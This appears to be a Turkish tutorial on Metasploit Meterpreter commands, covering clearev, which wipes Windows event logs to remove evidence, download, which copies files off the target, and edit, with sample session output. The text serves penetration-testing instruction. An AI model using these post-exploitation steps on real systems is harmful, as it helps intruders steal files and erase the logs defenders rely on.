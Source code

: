 
## clearev



`clearev` komutu, Clear Evidence yani delilleri temizleme anlamına gelir. Karşı tarafta açılan oturumda oluşturulan **log** dosyalarını temizlemeye çalışır.


```bash
meterpreter **&gt;** clearev
**[*********]** Wiping 97 records from Application...
**[*********]** Wiping 415 records from System...
**[*********]** Wiping 0 records from Security...
meterpreter **&gt;**
```



## download



Karşı bilgisayardan bir dosya indirmeye yarar. İndirilen dosya, metasploit’i başlatırken yerel sisteminizde hangi klasördeyseniz, oraya kaydedilir.


```bash
meterpreter **&gt;** download c:\\boot.ini
**[*********]** downloading: c:\boot.ini -&gt; c:\boot.ini
**[*********]** downloaded : c:\boot.ini -&gt; c:\b<a href="http://oot.ini/boot.ini">oot.ini/boot.ini</a>
meterpreter **&gt;**
```



## edit



`edit` komutu, karşı taraftaki bilgisayarda bulunan bir dosyayı düzenlemek üzere `vim` editörde açar. Vim Editör kullanımı için <a href="http://www.vim.org/">Vim</a> sayfasına bakabilirsiniz.


```bash
meterpreter **&gt;** ls

Listing: C:\Documents and Settings\Administrator\Desktop
**========================================================**

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
.
...snip...
.
100666/rw-rw-rw-  0       fil   2012-03-01 13:47:10 -0500  edit.txt

meterpreter **&gt;** edit edit.txt
```
